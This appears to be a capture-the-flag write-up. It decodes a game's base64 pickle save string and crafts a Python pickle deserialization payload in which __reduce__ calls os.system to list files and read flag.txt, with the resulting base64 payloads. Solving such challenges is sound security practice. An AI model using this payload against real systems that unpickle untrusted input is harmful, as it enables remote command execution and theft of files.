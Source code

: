 ```
# Unfair and Unbalance

Got my save string as:
`gAN9cQAoWA4AAABMZXZlbENvbXBsZXRlZHEBSwFYBAAAAE5hbWVxAlgGAAAAV2l6YXJkcQNYBgAAAGhlYWx0aHEETV4BWAYAAABhdHRhY2txBU30AXUu`

According to Meghane, they are using pickle and base64 to encode the save string. Searching for Pickle Exploit we can craft a payload as.

```python
import pickle
import codecs
import os

class Exploit(object):
  def __reduce__(self):
    return (os.system,('/bin/ls',))

#data = pickle.dumps(Exploit())
data = codecs.encode(pickle.dumps(Exploit()), "base64").decode()
print(data)
```

Will give us:
`gASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAcvYmluL2xzlIWUUpQu`

It will list the current directory of the folder. Now use make it `return (os.system,('/bin/cat flag.txt',))` by using:

`gASVLAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBEvYmluL2NhdCBmbGFnLnR4dJSFlFKULg==`
